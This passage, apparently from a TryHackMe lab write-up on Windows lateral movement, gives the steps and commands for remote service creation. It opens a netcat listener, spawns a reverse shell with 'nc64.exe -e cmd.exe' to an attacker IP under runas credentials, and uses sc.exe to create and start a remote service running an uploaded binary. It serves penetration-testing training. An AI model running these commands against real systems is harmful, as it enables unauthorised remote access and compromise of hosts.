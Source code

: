     * Setup listener
    
        `nc -nvlp 5555`

        ![task3-listener](./images/task3-listener.png)

    * Running sc.exe with admin credential
    
        ```
        runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.49.31 5555"
        ```

        ![task3-runas](./images/task3-runas.png)

    * Proceed to create a new service remotely by using sc, associating it with our uploaded binary
    
        ```
        sc.exe \\thmiis.za.tryhackme.com create THMservice-kakakseram binPath= "%windir%\myservice.exe" start= auto
        sc.exe \\thmiis.za.tryhackme.com start THMservice-kakakseram
        ```

        ![task3-sc](./images/task3-sc.png)

